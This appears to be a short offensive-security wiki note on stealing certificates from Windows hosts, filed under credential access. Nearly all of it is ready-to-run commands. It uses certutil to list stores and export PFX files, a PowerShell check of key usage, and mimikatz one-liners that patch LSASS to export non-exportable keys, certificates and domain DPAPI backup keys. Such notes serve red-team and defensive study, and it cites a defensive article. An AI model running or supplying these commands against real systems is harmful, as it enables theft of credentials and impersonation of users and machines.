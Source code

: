 ```yaml
---
title: Certificate Theft
---
```


[[notes/mitre-attack/credential-access]] on [[notes/windows/index]] by exporting certificates.

List stored certificates.

~~~ bat
certutil.exe -store My
certutil.exe -user -store My
~~~

Export a certificate that is marked as exportable.
This can also be done via `certmgr.msc`.

~~~ bat
certutil.exe -p passw0rd -exportPFX My 31f5a395749a3fbe4833b2dcc53992f2 %cd%\cert.pfx
~~~

Get certificate key usage.

=== "PowerShell"
    ~~~ powershell
    (New-Object System.Security.Cryptography.X509Certificates.X509Certificate2 @('cert.pfx', 'passw0rd')).EnhancedKeyUsageList
    ~~~

=== "builtin"
    ~~~ bat
    certutil.exe -dump -v .\cert.pfx
    ~~~

As local admin export user and computer certificates even if they are not marked as exportable by patching LSASS.

=== "[[notes/tools/mimikatz]]"
    ~~~ bat
    .\mimikatz.exe privilege::debug crypto::capi "crypto::keys /export" exit
    .\mimikatz.exe crypto::capi privilege::debug crypto::cng "crypto::certificates /store:my /export" exit
    .\mimikatz.exe token::elevate crypto::capi privilege::debug crypto::cng "lsadump::backupkeys /system:%COMPUTERNAME% /export" "crypto::certificates /systemstore:local_machine /export" exit
    ~~~

Untested tools:

- [[notes/tools/dploot]]
- [[notes/tools/sharpdpapi]]

References:

- [Breaking the Chain: Defending Against Certificate Services Abuse](http://web.archive.org/web/20230326061554/https://www.splunk.com/en_us/blog/security/breaking-the-chain-defending-against-certificate-services-abuse.html)
